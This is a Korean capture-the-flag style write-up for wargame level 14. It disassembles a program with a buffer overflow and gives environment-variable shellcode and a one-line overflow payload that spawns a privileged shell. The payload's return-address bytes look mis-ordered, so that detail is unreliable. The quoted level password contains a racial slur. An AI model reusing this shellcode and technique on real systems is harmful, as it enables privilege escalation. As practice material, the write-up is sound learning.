




# level 14

* id : `level14`
* pw : `what that nigga want?`

비밀번호가 ㅎㅎ... 요즘 세상이라면 논란 있을법한 비밀번호다



`level13`과 유사하다.

```python
0x08048490 <main+0>:    push   ebp
0x08048491 <main+1>:    mov    ebp,esp
0x08048493 <main+3>:    sub    esp,0x38                         # 총 할당받는 버퍼 크기 (0x38 == 56)
0x08048496 <main+6>:    sub    esp,0x4                          # check 변수
0x08048499 <main+9>:    push   ds:0x8049664                     # fgets 인자 넣기
0x0804849f <main+15>:   push   0x2d                             # 0x2d = 45
0x080484a1 <main+17>:   lea    eax,[ebp-56]                     # buf 배열
0x080484a4 <main+20>:   push   eax
0x080484a5 <main+21>:   call   0x8048360 <fgets>
0x080484aa <main+26>:   add    esp,0x10
0x080484ad <main+29>:   cmp    DWORD PTR [ebp-16],0xdeadbeef    # [ebp-16] 주소와 deadbeef 비교
0x080484b4 <main+36>:   jne    0x80484db <main+75>
0x080484b6 <main+38>:   sub    esp,0x8
0x080484b9 <main+41>:   push   0xc17
0x080484be <main+46>:   push   0xc17
0x080484c3 <main+51>:   call   0x8048380 <setreuid>
0x080484c8 <main+56>:   add    esp,0x10
0x080484cb <main+59>:   sub    esp,0xc
0x080484ce <main+62>:   push   0x8048548
0x080484d3 <main+67>:   call   0x8048340 <system>
0x080484d8 <main+72>:   add    esp,0x10
0x080484db <main+75>:   leave
0x080484dc <main+76>:   ret
0x080484dd <main+77>:   lea    esi,[esi]
```


잘 보면 알겠지만 crap 변수가 사라졌는데, 아마 사용하지 않는 변수여서 컴파일러에서 알아서 지운 듯 하다.

이번에도 환경변수 이용!! 기계적으로 쉘코드를 짜보자

```bash
export EGG=$(python -c 'print "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"')
env | grep EGG
```




쉘코드 저장된 환경변수 주소가 `0xbffffca0` 인것 확인, 마찬가지로 검사하는 변수에 정상적인 값을 씌워주자.

```bash
(python -c 'print "A"*(40) + "\xEF\xBE\xAD\xDE" + "A"*4 + "\xBF\xFF\xFC\xA0"';cat) | ./attackme
```



GG!

